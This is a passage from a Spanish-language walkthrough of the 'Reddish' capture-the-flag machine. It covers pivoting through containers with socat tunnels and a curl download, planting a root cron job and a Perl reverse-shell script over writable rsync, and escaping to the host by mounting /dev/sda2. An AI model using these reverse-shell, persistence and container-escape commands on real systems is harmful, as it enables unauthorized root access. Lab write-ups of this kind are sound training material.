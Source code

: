 Podemos usar rsync para listar los archivos de la 172.20.0.2 pero tambien podemos **incluir archivos**. Por lo que si creamos una tarea cron que se ejecute cada minuto dentro del **/etc/cron.d** y que ejecute un script que nos entable una reverse shell podremos ganar acceso. 
Para realizar esto debemos tener el **socat** en la máquina **www**. Para ello entraremos en la máquina Node-Red y crearemos el siguiente tunel:
```bash
./socat TCP-LISTEN:4777,fork TCP:10.10.14.11:8080
```
En nuestra máquina nos montaremos el servidor en python3 compartiendo socat por el puerto 8080 y desde la máquina **www** nos lo descargaremos:
```bash
__curl http://172.19.0.3:4777/socat > socat 
```
Con el socat en la máquina podemos definir la tarea cron llamada **shell**:
```bash
* * * * * root sh /tmp/reverse.sh
```
Definimos reverse.sh. En este caso nos enviaremos la reverse shell a la máquina **www** para no pasar entre todas las restantes
```bash
#!/bin/bash
perl -e 'use Socket;$i="172.19.0.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Subimos los archivos shell y reverse.sh
```bash
rsync shell rsync://backup/src/etc/cron.d/shell
rsync reverse.sh rsync://backup/src/tmp/reverse.sh
```
Nos ponemos en escucha con socat de la siguiente manera:
```bash
./socat TCP-LISTEN:4444 stdout
```
Haremos el tratamiento de la TTY y ganaremos acceso como root. Ya no hay mas contendores! solo falta acceder a la máquina real. 
## Ganando acceso a la máquina Reddish
Si vemos las monturas con **df -h** veremos que está montado **/dev/sda2** en **/backup** y además, en el resto de máquinas es diferente. Como somos root podemos crear un directorio llamado privesc en **/mnt** y montar **/dev/sda2** en esa ruta. Al entrar nos daremos cuenta de que es otro sistema de archivos y que podemos leer las flags de **root.txt** y **user.txt**. Al tratarse de una montura todo lo que hagamos en ella se producirá en la máquina real por lo que si **volvemos a crear una tarea cron que nos entable una reverse shell** obtendremos acceso a la máquina **Reddish**

